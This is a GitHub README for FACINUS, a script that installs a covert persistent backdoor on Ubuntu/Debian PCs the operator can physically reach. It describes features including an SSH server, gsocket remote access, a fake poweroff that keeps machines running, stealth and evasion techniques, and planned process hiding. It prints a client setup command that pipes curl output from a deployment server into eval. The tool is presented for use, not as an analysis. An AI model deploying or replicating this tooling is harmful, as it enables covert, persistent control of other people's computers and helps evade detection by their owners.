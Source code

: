 ## FACINUS - set a 24/7 access on a Ubuntu/Debian PC you have physical access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
sudo ./install
```

## Help
You can run ./install --help to see available options.
```
./install --help
FACINUS Installation Script
Usage: ./install [options]

Options:
  --no-root            Install without root privileges (limited functionality)
  --no-services        Don't install system services
  --no-wol             Don't configure Wake-on-LAN
  --no-fake-poweroff   Don't install fake poweroff feature
  --no-gsocket         Don't install gsocket for remote access
  --no-stealth         Don't apply stealth techniques
  --light-theme        Use light theme for web interface
  --server-ip IP       Specify server IP address
  --server-port PORT   Specify server port (default: 80)
  --server-root PATH   Specify server root directory
  --verbose            Show verbose output
  --help               Show this help message
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/deployment.png"/>
<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/admin.png"/>

## TODO
- [ ] fix path traversal vulnerability
- [ ] Do fake poweroff for all possible variants for Ubuntu/Debian with gnome.
- [x] Add checks for other distros
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [x] Add options to the script (no root, no services, etc.)
- [x] Add a dark theme for the web interface
